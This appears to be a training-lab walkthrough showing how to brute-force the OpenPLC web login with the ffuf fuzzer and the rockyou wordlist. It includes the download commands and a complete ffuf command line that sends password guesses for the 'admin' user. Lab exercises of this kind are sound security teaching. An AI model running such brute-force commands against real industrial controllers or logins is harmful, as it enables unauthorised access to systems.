



# Password attack

In this example we try to get the password of the openplc login using the password fuzzer [ffuf](https://github.com/ffuf/ffuf).  

## Check response
http://cybics.lan:8080/login  
After entering wrong credentials, this page is displayed:  


When the browsers built in developer console is open during the request, we can see the what is sent and received when we try to login. E.g. in chrome with F12  


And the sent payload  


## download
```bash
mkdir ~/ffuf
cd ~/ffuf
wget https://github.com/ffuf/ffuf/releases/download/v2.1.0/ffuf_2.1.0_linux_amd64.tar.gz
tar xf ffuf_2.1.0_linux_amd64.tar.gz
```

## get a wordlist
```bash
wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

## ffuf
Start fuff with:
- `-w ./rockyou.txt` the downloaded wordlist
- `-X POST -H "Content-Type: application/x-www-form-urlencoded"` information from the login request
- `-d "username=admin&password=FUZZ"` information form the login request payload (FUZZ is replaced by ffuf)
- `-u http://$DEVICE_IP:8080/login` the request
- `-fs 4561` the length of the response on wrong login
```bash
./ffuf -v -w ./rockyou.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -raw -u http://$DEVICE_IP:8080/login -fs 4561
```

For more info start it without parameters
```bash
./ffuf
```
